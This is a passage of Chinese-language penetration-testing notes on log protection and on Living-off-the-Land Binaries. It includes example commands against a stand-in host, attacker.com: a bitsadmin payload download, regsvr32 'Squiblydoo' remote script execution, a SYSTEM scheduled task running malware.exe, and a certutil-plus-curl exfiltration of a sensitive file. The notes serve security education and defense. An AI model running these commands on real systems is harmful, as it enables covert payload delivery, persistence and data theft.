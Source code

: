 - **日誌保護策略**：
  - 使用日誌完整性和監控工具
  - 設置可疑日誌活動的警報
  - 確保日誌安全備份和存儲
  - Windows 事件日誌是安全監控、鑑識和事件響應的基本數據來源

## 滲透測試價值

- 了解攻擊者如何篡改日誌，可以幫助滲透測試人員更好地保護這些關鍵數據源
- 有助於實施措施來檢測和防止日誌篡改
- 確保鑑識調查的完整性

# Living off the Land Binaries (LOLBins) 

- **Living off the Land Binaries (LOLBins)（原生系統二進位檔攻擊）**：合法、預先安裝在作業系統中的工具和實用程式，攻擊者和滲透測試人員可以利用這些工具執行各種操作，而無需引入外部工具或惡意軟體
  - 這種方法可幫助避開安全工具的檢測，因為這些二進位檔是受信任且通常被列入白名單的
  - 使用LOLBins可以在受感染系統上執行各種行動，同時將被檢測的風險降到最低

## 常見的LOLBins工具及用途

- **PowerShell**：Windows系統上的強大腳本語言和命令列介面
  - 可用於收集目標系統信息
  - 例如：`Get-Process > C:\Temp\processes.txt` 列出所有運行進程並將輸出保存到檔案

- **BITSAdmin.exe**：用於管理背景智慧傳輸服務(BITS)的命令列工具
  - 可用於從網路下載檔案
  - 例如：`bitsadmin /transfer myJob /download /priority high http://attacker.com/payload.exe C:\Temp\payload.exe`

- **Regsvr32**（註冊伺服器）：用於註冊和撤銷DLL註冊的工具
  - 可用於執行託管在遠端伺服器上的腳本
  - 這種攻擊技術有時被稱為"Squiblydoo"
  - 例如：`regsvr32 /s /n /u /i:http://attacker.com/script.sct scrobj.dll`
  - 此方法不會修改註冊表，因為COM物件實際上沒有被註冊，只被執行

- **Schtasks.exe**（排程工作）：Windows上管理排程任務的工具
  - 可用於創建以特權執行的工作
  - 需要提升的權限
  - 例如：`schtasks /create /tn "MaintenanceTask" /tr C:\Temp\malware.exe /sc onlogon /ru "SYSTEM"`

- **Certutil.exe**（憑證工具）：管理憑證的命令列工具
  - 可用於編碼和解碼資料，有助於資料外洩
  - 例如：`certutil -encode C:\sensitivedata.txt C:\encoded.txt`
         `curl -d @C:\encoded.txt http://attacker.com/exfil`

## 防禦建議

- 組織需要實施強大的監控和警報機制來檢測合法工具的異常使用
- [CrowdStrike Falcon OverWatch](https://www.crowdstrike.com/en-us/blog/8-lolbins-every-threat-hunter-should-know/) 觀察到各種國家和網路犯罪者利用LOLBins進行各種功能—包括偵察、修改系統配置、資料破壞和執行惡意代碼
- 根據[The SOC Labs](https://thesoclabs.com/what-are-lolbins-and-list-of-lolbins/)，其他常見的LOLBins還包括at、cmd.exe、msiexec和conhost等

## 滲透測試建議

- LOLBins是滲透測試人員武器庫中的強大工具
- 通過理解和利用這些本機實用程式，可以進行隱蔽且有效的滲透測試
- 確保在商定的參與範圍內合乎道德地進行測試